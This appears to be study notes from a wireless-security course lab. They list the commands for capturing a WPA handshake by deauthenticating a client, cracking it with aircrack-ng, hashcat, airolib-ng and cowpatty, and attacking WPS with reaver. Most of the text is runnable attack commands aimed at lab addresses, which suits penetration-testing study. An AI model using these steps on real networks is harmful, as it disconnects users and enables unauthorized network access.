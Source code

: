 - Put wlan0 to monitor mode
- `sudo airodump-ng wlan0mon` dump all wireless
- List down details of our target BSSID(Mac address of AP), Station(Client connected Mac address), AUTH(PSK)
- Look for AUTH column, should be PSK. aircrack-ng does not work with Enterprise(MGT), Opportunistic Wireless Encryption(OWE) cannot be cracked yet.
- use airodump again against the specific AP target `sudo airodump-ng -c 3 -w wpa --essid wifu --bssid 34:08:04:09:3D:38 wlan0mon` this will save the result to wpa.cap
- Aireplay to deauth the client and capture 4-way Handshake `sudo aireplay-ng -0 1 -a 34:08:04:09:3D:38 -c 00:18:4D:1D:A8:1F wlan0mon` The `-0 1` means Deauth once.
- Once client reconnects we will be able to capture a handshake
- let airodump run for a bit.
- Use aircrack to Crack the handshake `aircrack-ng -w /usr/share/john/password.lst -e wifu -b 34:08:04:09:3D:38 wpa-01.cap`
- confirm passphrase `airdecap-ng -b 34:08:04:09:3D:38 -e wifu -p 12345678 wpa-01.cap`

Failed to get a handshake?

- Try sending deauth as broadcast. omit `-c`
- 802.11w can't do anything but to wait for a client to connect.

Custom Wordlist for Aircrack

- jtr
- crunch
- mangler

Cracking with Hashcat

- convert pcap to hccapx `/usr/lib/hashcat-utils/cap2hccapx.bin <.pcap> output.hccapx`
- `hashcat -m 2500 output.hccapx /usr/share/joh/password.lst`

### Airolib-ng

Used to compute Pairwise Master Keys(PMK) and use them in order to crack WPA and WPA2 PSK passphrases.

- `echo wifu > essid.txt`
- `airolib-ng wifu.sqlite --import essid essid.txt`
- `airolib-ng wifu.sqlite --stat`
- `airolib-ng wifu.sqlite --import passwd <wordlist>`
- `airolib-ng wifu.sqlite --batch`
- `aircrack-ng -r wifu.sqlite <pcap>`

### CoWPAtty

Used for rainbow table attacks to crack WPA passphrases

- `genpmk -f <wordlist> -d outfile -s wifu` kinda like airolib
- `cowpatty -r <pcap> -d <outfilefromgenpmk> -s wifu`

### Attacking WPS

- `wash -i wlan0mon` to know version of WPS, LCK column indicicates if WPS is locked(cant attack)
- `sudo reaver -b 34:08:04:09:3D:38 -i wlan0mon -v -K` `-K` means we are using pixieWPS
